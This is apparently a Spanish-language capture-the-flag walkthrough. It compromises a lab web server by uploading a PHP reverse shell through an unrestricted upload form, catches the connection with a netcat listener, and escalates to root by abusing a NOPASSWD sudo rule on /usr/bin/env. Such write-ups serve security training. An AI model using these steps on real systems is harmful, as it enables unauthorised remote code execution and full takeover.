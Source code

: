 ## 1. Reconocimiento Inicial con Nmap

Realizamos un escaneo exhaustivo con `nmap` para detectar puertos abiertos, sus versiones y el sistema operativo. Esto nos proporciona una visión general de los servicios expuestos y posibles vulnerabilidades asociadas a sus versiones.

```bash
nmap -O -sC -sV <IP_DEL_OBJETIVO>
```

**Resultados Clave:**

*   `80/tcp open http Apache` El título de la página (`Upload here your file`) es una pista clara sobre la funcionalidad principal del sitio.

![[Upload_SubirArchivo.png]]
### 1.2. Análisis de la Página Web con WhatWeb

Utilizamos `whatweb` para obtener más información sobre la tecnología utilizada en la página web. Esta herramienta escaneará la URL y reportará tecnologías, versiones y otros detalles.

```bash
whatweb <IP_DEL_OBJETIVO>
```

**Resultado:**
*   `Apache/2.4.52` en `Ubuntu Linux`.

### 1.3. Fuzzing Web con Gobuster

Realizamos un fuzzing de directorios con `gobuster` para descubrir rutas ocultas o archivos interesantes en el servidor web. Esto nos ayuda a mapear la estructura del sitio y encontrar posibles puntos de entrada.

```bash
gobuster dir -w /path/to/wordlist/directory-list-lowercase-2.3-medium.txt -u http://<IP_DEL_OBJETIVO>
```

**Resultados Relevantes:**

*   `/uploads`: Este directorio es crucial, ya que su nombre sugiere que es donde se almacenan los archivos subidos.
## 2. Explotación de la Vulnerabilidad de Carga de Archivos

La presencia de una funcionalidad de carga de archivos y un directorio `/uploads` accesible es una señal de una posible vulnerabilidad de carga de archivos sin restricciones, que puede llevar a la ejecución remota de código (RCE).

### 2.1. Creación de una Reverse Shell en PHP

Para obtener una shell inversa, crearemos un archivo PHP que, al ser ejecutado en el servidor, se conectará a nuestra máquina atacante. Utilizaremos un script de reverse shell PHP estándar, como el de `pentestmonkey`.

Descargar el script y modificar la dirección IP (`$ip`) a la IP de tu máquina atacante (Kali Linux) y el puerto (`$port`) al puerto que usarás para escuchar la conexión (por ejemplo, 443).

### 2.2. Carga del Archivo Malicioso

Utilizamos la interfaz de carga de archivos en `http://<IP_DEL_OBJETIVO>/` para subir nuestro `reverseShell.php` modificado. Si la carga es exitosa, el servidor responderá con un mensaje de confirmación como `The file reverseShell.php has been uploaded.`

### 2.3. Obtención de la Reverse Shell

1.  **Configurar el Listener:** En tu máquina atacante (Kali Linux), abre una terminal y configura un `netcat` listener en el puerto que especificaste en el script PHP (por ejemplo, 443).

    ```bash
    nc -lvnp 443
    ```

2.  **Ejecutar el Archivo Cargado:** Navega en tu navegador a la URL donde se cargó el archivo PHP: `http://<IP_DEL_OBJETIVO>/uploads/reverseShell.php`. Al acceder a esta URL, el servidor ejecutará el script PHP, lo que activará la conexión inversa a tu listener de `netcat`.

Deberías ver una conexión entrante en tu terminal de `netcat`.

```bash
whoami
www-data
```

Confirmamos que hemos obtenido una shell como el usuario `www-data`, que es el usuario bajo el que se ejecuta el servidor web Apache.

### 2.4. Tratamiento de la TTY (Opcional pero Recomendado)

Para una mejor interacción con la shell (autocompletado, historial, etc.), es recomendable convertirla en una TTY (terminal) interactiva. Esto se logra con los siguientes comandos:

1.  **Ejecutar `script`:**
    ```bash
    script /dev/null -c bash
    ```
2.  **Suspender el proceso:**
    ```bash
    Ctrl + Z
    ```
3.  **Configurar la terminal:**
    ```bash
    stty raw -echo; fg
    ```
4.  **Restablecer la terminal:**
    ```bash
    reset
    ```
5.  **Especificar tipo de terminal (si se pregunta):**
    ```bash
    xterm
    ```
6.  **Exportar variables de entorno:**
    ```bash
    export TERM=xterm
    export SHELL=bash
    ```

## 3. Escalada de Privilegios

Una vez que tenemos una shell como `www-data`, el objetivo es escalar privilegios a `root`.

### 3.1. Verificación de Permisos Sudo

Verificamos qué comandos puede ejecutar el usuario actual con `sudo` sin necesidad de contraseña. Esto se hace con el comando `sudo -l`.

```bash
sudo -l
```

**Resultados Clave:**

*   `(root) NOPASSWD: /usr/bin/env`

Esto significa que el usuario `www-data` puede ejecutar el binario `/usr/bin/env` como `root` sin necesidad de introducir su contraseña. El comando `env` se utiliza para ejecutar un programa en un entorno modificado, y puede ser abusado para escalar privilegios si está mal configurado en `sudo`.

### 3.2. Abuso de `env` para Obtener Root

Según GTFOBins, cuando `env` tiene permisos `NOPASSWD` en `sudo`, se puede abusar de él para ejecutar una shell con privilegios de `root`.

```bash
sudo -u root /usr/bin/env /bin/sh
```

Al ejecutar este comando, obtendremos una shell con privilegios de `root`.

```bash
whoami
# root
```

Confirmamos que hemos escalado exitosamente a `root`.
